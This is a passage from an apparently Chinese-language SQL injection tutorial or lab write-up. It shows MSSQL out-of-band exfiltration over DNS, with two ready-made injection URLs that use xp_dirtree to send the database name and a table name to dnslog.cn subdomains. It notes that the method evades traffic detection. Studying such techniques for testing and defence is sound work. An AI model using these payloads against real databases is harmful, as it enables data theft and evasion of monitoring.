 <img src="./assets/image-20240906151533134.png" alt="image-20240906151533134" style="zoom: 50%;" />

##### DNS数据外带

- 在极限条件下(内网机器不出网,支持dns出网,隐匿性高,不容易被拦截),61长度限制,不支持敏感符号,外带数据需要转码,规避流量检测设备

##### 获取数据库名

```sql
http://192.168.100.226/less-1.asp?id=1';declare @a varchar(1024);set @a=db_name();exec('master..xp_dirtree "//'%2B@a%2B'.qu4mx7.dnslog.cn//a"') --+
```

![image-20240905203520207](./assets/image-20240905203520207.png)

##### 获取表名

```sql
http://192.168.100.226/less-1.asp?id=1';declare @a varchar(1024);set @a=(select top 1 table_name from information_schema.tables where table_name not in(select top 4 table_name from information_schema.tables));exec('master..xp_dirtree "//'%2B@a%2B'.06z43e.dnslog.cn//a"') --+
```

![image-20240905205520289](./assets/image-20240905205520289.png)
